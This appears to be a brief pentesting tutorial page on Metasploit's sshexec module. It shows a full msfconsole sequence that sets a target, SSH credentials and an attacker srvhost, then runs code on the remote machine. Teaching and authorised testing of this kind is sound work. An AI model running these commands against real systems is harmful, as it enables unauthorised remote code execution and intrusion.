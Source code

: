 ```yaml
---
description: >-
  Discover insights into SSH User Code Execution in our detailed article. We
  delve into its intricacies and implications, helping you understand and
  prevent potential security threats.
---
```


# 🟢 SSH User Code Execution

SSH User Code Execution, often referred to as `sshexec`, is a type of penetration testing exploit that allows an attacker to execute commands on a remote machine via SSH. This technique leverages legitimate SSH credentials to gain access to a system and run arbitrary code.

In Metasploit, this can be accomplished using the `exploit/multi/ssh/sshexec` module. Below is a step-by-step example:

```
msf > use exploit/multi/ssh/sshexec
msf exploit(sshexec) >set rhosts 192.168.1.103
msf exploit(sshexec) >set username ignite
msf exploit(sshexec) >set password 123
msf exploit(sshexec) >set srvhost 192.168.1.107
msf exploit(sshexec) >exploit
```

Here, `rhosts` specifies the target host, `username` and `password` provide the SSH credentials, and `srvhost` is your attacking machine. The `exploit` command then executes the attack.

This method is useful for security testers to assess the vulnerabilities of SSH-enabled systems by validating if password-based authentication can be exploited.

